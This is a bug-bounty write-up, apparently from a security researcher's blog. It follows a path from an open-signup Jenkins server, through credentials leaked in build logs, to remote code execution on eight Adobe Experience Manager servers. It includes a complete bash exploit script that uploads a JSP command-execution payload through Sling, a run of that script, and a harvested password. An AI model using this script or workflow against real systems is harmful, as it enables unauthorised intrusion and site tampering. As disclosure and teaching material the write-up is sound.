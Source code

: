 ```yaml
---
layout: post
title: "Exposed Jenkins to RCE on 8 Adobe Experience Managers"
author: Corben Leo
---
```


### <font>&#128075;&#127996; introduction:</font>
This is a short write-up of how I progressed from discovering a Jenkins instance to getting shells on 8 Adobe Experience Manager servers and gaining edit access to a company's main sites. Along with this blog-post, I'm releasing a tool called <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a>.

<b><i>Note:</i></b> as this was a finding in a private program, I'm not allowed to disclose any details that could be used to identify them. For this reason, I've changed and redacted details.

### <font>&#128373;&#65039;recon</font>
Back in June, I decided to change my workflow and automate more of my recon. After doing so, I decided to perform a test scan against a private program I was in. After the scan finished, I started looking through the HTTP titles of every subdomain it had discovered.

One in particular caught my eye: `Dashboard [Jenkins] - https://wcm-pipeline03.dev.test.example.com`

I visited the subdomain and found that it was indeed running Jenkins. In the past I have had success getting Code Execution on Jenkins via Orange Tsai's <a target='_blank' rel='noopener noreferrer' class='link' href='https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html'>research</a>, so I tried that but unfortunately it was patched.

However, the `/signup` endpoint was enabled, so I registered for an account and logged in, and started looking at the builds: `https://wcm-pipeline03.dev.test.example.com/view/all/builds`.

I'm a huge sucker for Continuous Integration applications and I've done some <a target='_blank' rel='noopener noreferrer' class='link' href='https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/'>research</a> on finding secrets in build logs on TravisCI. Since this Jenkins server was running the latest version and there weren't any public vulnerabilities in it, I decided to go down a different route: finding secrets in build logs. 

Just like with Travis-CI, it would be an incredibly tedious task to manually retrieve every build log and environment variable for every job, so I automated all of it. 

### <font>&#127881; jenkinz -&gt; secrets -&gt; rce</font>
<a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a> is the the tool that came out of this; it retrieves every build (log and environment variables) for every job ever created and run on a given Jenkins instance and saves them all to an output directory.

After running the tool, I had a large amount of data through. `ripgrep` is great for this - after searching for a few different strings, I found credentials in one of the logs:

```
found credentials for id: aem-ingress -> username: aemingress Password: Goodbye2017!
```

By reading through the entire log file, it was evident that this job was a script that logged into several Adobe Experience Manager servers, performed some tasks, then emailed a developer. I had discovered and tested a few of their AEM instances in the past, so I went back through my historical recon data, searched on Github, and found 8 of their AEMs. 


The credentials worked and I was an admin on all of them.


Next, I took a <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh'>bash script</a> by <a target='_blank' rel='noopener noreferrer' class='link' href='https://twitter.com/0ang3el'>0ang3el</a> and modified it to only run the `uname` command:


```bash
#!/usr/bin/bash

if [ "$#" -ne 3 ]; then
	echo "Usage: $0 URL USERNAME PASSWORD"
	exit 2
fi

url="$1"
username="$2"
password="$3"

payload=$(cat <<-EOT
<%@ page import="java.io.*" %>
<% 
	Process proc = Runtime.getRuntime().exec('uname -a');
	
	BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
	StringBuilder sb = new StringBuilder();
	String s = null;
	while ((s = stdInput.readLine()) != null) {
		sb.append(s + "\\\\n");
	}
	
	String output = sb.toString();
%>
<%=output %>
EOT
)

echo "$payload" > /tmp/html.jsp

#Create rcetype
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/apps/rcetype" -Fhtml.jsp=@/tmp/html.jsp > /dev/null

# Create rcenode
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/rcenode" -Fsling:resourceType=rcetype > /dev/null

echo "Now navigate to $url/rcenode.html"
```


Running it with the credentials I'd found:


```bash
$ bash aem-rce-sling.script.sh http://aem-instance.example.com "aemingress" "Goodbye2017!"

Now navigate to https://aem-instance.example.com/rcenode.html
```

After navigating to the URL, the `uname -a` command executed.


Not only did I have RCE though, I had full privileges and could've deleted or edited all of their main sites, including their subsidaries in AEM:

`http://aem-instance.example.com/editor.html/content/example/example_com/us/en/home/index.html`


## outro:

I had a super fun time with this vulnerability and I enjoyed tooling it. Hopefully in your bug-bounty, pentesting, and/or red-teaming journey, the <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>tool</a> is useful!

<br>Happy hacking,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
